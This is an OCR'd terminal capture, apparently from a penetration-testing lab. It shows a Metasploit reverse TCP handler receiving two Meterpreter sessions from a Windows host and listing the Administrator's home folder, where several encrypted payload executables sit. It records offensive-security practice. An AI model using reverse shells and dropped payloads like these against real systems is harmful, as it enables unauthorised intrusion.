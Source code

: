 ```
 
[*] Started reverse TCP handler on 192.168.50.118:4444 
[*] Meterpreter session 3 opened (192.168.50.118:4444 -> 192.168.50.124:51783) at 2023-07-20 17:40:06 +0530
 
meterpreter > [*] Meterpreter session 4 opened (192.168.50.118:4444 -> 192.168.50.124:51784) at 2023-07-20 17:40:06 +0530
dir
Listing: C:\Users\Administrator
===============================
 
Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  0        dir   2023-02-18 16:41:22 +0530  .ssh
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:26 +0530  3D Objects
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  AppData
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Application Data
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Contacts
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Cookies
040555/r-xr-xr-x  0        dir   2023-02-22 12:40:59 +0530  Desktop
040555/r-xr-xr-x  4096     dir   2023-02-16 13:37:27 +0530  Documents
040555/r-xr-xr-x  4096     dir   2023-07-20 12:21:50 +0530  Downloads
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Favorites
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Links
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Local Settings
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Music
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  My Documents
100666/rw-rw-rw-  1310720  fil   2023-07-12 23:37:08 +0530  NTUSER.DAT
100666/rw-rw-rw-  65536    fil   2023-02-16 13:38:32 +0530  NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TM.blf
100666/rw-rw-rw-  524288   fil   2023-02-16 13:37:15 +0530  NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000001.regtrans-ms
100666/rw-rw-rw-  524288   fil   2023-02-16 13:37:15 +0530  NTUSER.DAT{53b39e88-18c4-11ea-a811-000d3aa4692b}.TMContainer00000000000000000002.regtrans-ms
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  NetHood
040555/r-xr-xr-x  0        dir   2023-02-16 13:40:10 +0530  OneDrive
040555/r-xr-xr-x  4096     dir   2023-02-16 14:57:56 +0530  Pictures
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  PrintHood
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Recent
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Saved Games
040555/r-xr-xr-x  4096     dir   2023-02-16 13:39:53 +0530  Searches
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  SendTo
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Start Menu
040777/rwxrwxrwx  0        dir   2023-02-16 13:37:15 +0530  Templates
040555/r-xr-xr-x  0        dir   2023-02-16 13:37:27 +0530  Videos
100666/rw-rw-rw-  362496   fil   2023-02-16 13:37:14 +0530  ntuser.dat.LOG1
100666/rw-rw-rw-  503808   fil   2023-02-16 13:37:14 +0530  ntuser.dat.LOG2
100666/rw-rw-rw-  20       fil   2023-02-16 13:37:15 +0530  ntuser.ini
100777/rwxrwxrwx  73802    fil   2023-07-20 17:27:04 +0530  payload_encrypted.exe
100777/rwxrwxrwx  73802    fil   2023-07-20 17:31:30 +0530  payload_encrypted1.exe
100777/rwxrwxrwx  250880   fil   2023-07-20 17:39:15 +0530  payload_encrypted1_pay.exe
 
meterpreter >

```
